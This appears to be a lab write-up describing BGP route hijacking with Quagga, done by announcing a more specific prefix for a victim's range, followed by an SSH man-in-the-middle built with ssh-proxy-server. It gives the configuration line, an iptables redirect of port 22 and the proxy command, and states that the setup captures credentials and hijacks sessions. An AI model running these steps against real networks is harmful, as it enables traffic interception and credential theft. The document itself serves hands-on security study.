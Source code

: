 # BGP Spoofing & SSH MiTM
## Assumptions
* You are on a network with numerous systems advertising BGP routers.
* You have Quagga & BGPD installed and configured and are part of the network

## BGP Spoofing
![](https://i.imgur.com/ECNbaJT.png)
<br>In the above example I am connected to machine 10.1.0.1. 
<br>My target will be the machine on 10.45.0.1.

The first step in this process is to modify my own BGPD settings to insert the victim's IP address with a smaller CIDR.
<br>This is done by editing `/etc/quagga/bgpd.conf` and adding the following line `network 10.45.0.0/25` under my own.

![](https://i.imgur.com/hvMV0PX.png)

This was also done to `/etc/quagga/zebra.conf`. In this case `ip address` was modified to suit the intercepted IP on both interfaces.

![](https://i.imgur.com/MKvbivB.png)

I reset the BGP and Zebra services and the `ip route` now appeared as such:

![](https://i.imgur.com/qu8rOE9.png)

This meant that I was now intercepting all communication to and from 10.45.0.0/25.

![](https://i.imgur.com/91MSMEk.png)

If I looked at the routing from another machine, it is again confirmed.

## SSH MiTM

I first modified my default SSH port to 1337 and enabled this new port in my nftables. I cant exactly use my SSH while honeypotting it!

Using [ssh-proxy-server](https://pypi.org/project/ssh-proxy-server/) as mitm tool has the advantage to get the credentials, record full sessions and hijack the session.

I installed the honey pot with the following commands:

It is recommended to install the honey pot in a virtual python environment.
* python3 -m venv ~/vpython3
* source ~/vpython3/bin/activate

Intall ssh-proxy-server as mitm tool:

* pip install ssh-proxy-server
* ssh-keygen -t rsa -f ./ssh-honeypot.rsa

Redirect port 22 to 10022 (ssh-proxy-server default port):

* sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 10022

Start the mitm ssh proxy server:

* ssh-proxy-server --host-key ./ssh-honeypot.rsa --listen-address 0.0.0.0 --remote-host HONEY_POT_IP --remote-port 22 --auth-username HONEY_POT_USER --auth-password HONEY_POT_PASSWORD

It is also possible to pass the authentication to the honey pot server. To pass the client credentials to the server, you must not use the parameter "--auth-username" and "--auth-password".



When using the right plugnins in ssh-proxy-server, it is possible to monitor the session or hijack the session.

I could also add every single IP in the network to my Zebra and BGP configuration. This would force all IPs to connect through me. 

![](https://i.imgur.com/Oiqx2f2.png)



